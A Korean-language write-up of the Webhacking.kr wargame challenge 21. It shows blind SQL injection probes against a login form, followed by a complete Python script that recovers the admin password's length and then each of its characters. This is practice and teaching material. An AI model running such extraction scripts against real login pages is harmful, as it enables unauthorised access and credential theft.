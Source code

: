 ```yaml
---
title: "Webhacking.kr challenge(old) 21th Write-Up"
tags: [wargame, blindsqli]
categories: [Web]
---
```


Webhacking.kr 21 Write-Up
-------------------------

## **문제 분석**

문제에 접속하면 id와 pw가 입력 가능한 창이 있고 대문짝만하게 BLIND SQL Injection이라고 적혀 있습니다. 먼저 Blind SQL Injection을 성공하기 위해서는 조건에 따른 페이지의 차이를 알 필요가 있었습니다. 페이지를 보면 result 부분이 있었는데 로그인 성공 여부에 따라 문구가 출력되는 것을 확인할 수 있었습니다.

![webhacking_kr_21_main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/webhacking_kr_21_main.png?raw=true)

가장 먼저 로그인을 성공했을 때의 경우를 알고 싶었기에 guest/guest 계정을 사용하여 시도한 결과 login success라는 문구가 출력되었습니다. 이에 따라 guest 계정이 존재하는 것을 알 수 있었기에 참과 거짓을 구분할 방법을 알아내기 위해 아래 두 가지 Query를 시도하였습니다.

- 참일 경우 : ' or 1=1-- -
	- 반환 결과 : wrong password

- 거짓일 경우 : ' or 1=0-- -
	- 반환 결과 : login fail

즉, Query의 결과가 참일 경우 wrong password 라는 문구가 표시되는 것을 통해 SQL Injection의 성공 여부를 판단할 수 있었습니다. 이러한 유형의 문제는 admin의 password가 flag가 되거나 admin 계정으로 로그인에 성공하는 것이 목적이기에 이를 알아내기 위해 아래와 같은 코드를 작성하였습니다.

## **문제 해결**

먼저 admin 계정의 pw 길이를 알아내기 위해 다음과 같이 Python code를 작성하였습니다.

```python
for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))
```

이때, or 뒤에 id='admin' 조건을 작성하지 않을 경우 guest 계정에 대한 pw 길이도 비교하였기에 위와 같이 code를 수정하였습니다.

* * *

다음으로는 위에서 알아낸 pw 길이를 바탕으로 brute force 공격을 통해 전체 pw를 알아낼 수 있는 code를 작성하였습니다.

```python
for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            break

print("admin password is : {}".format(pw))
```

처음 작성한 code의 경우 대소문자를 명확하게 구별할 수 없어서 pw를 구했음에도 문제를 해결할 수 없었습니다. 따라서 ascii 함수를 통해 추출한 값을 비교함으로써 이러한 문제를 해결하였습니다.

최종적으로 사용된 코드는 아래와 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/bonus-1/index.php"
cookies = {"PHPSESSID":"22h1kbhc6uk1mhisjb9f5tif6n"}
params = {"id":"admin"}
ref1 = "wrong password"
length = ""
pw = ""

for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))

for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            print(pw)
            break

print("admin password is : {}".format(pw))
```
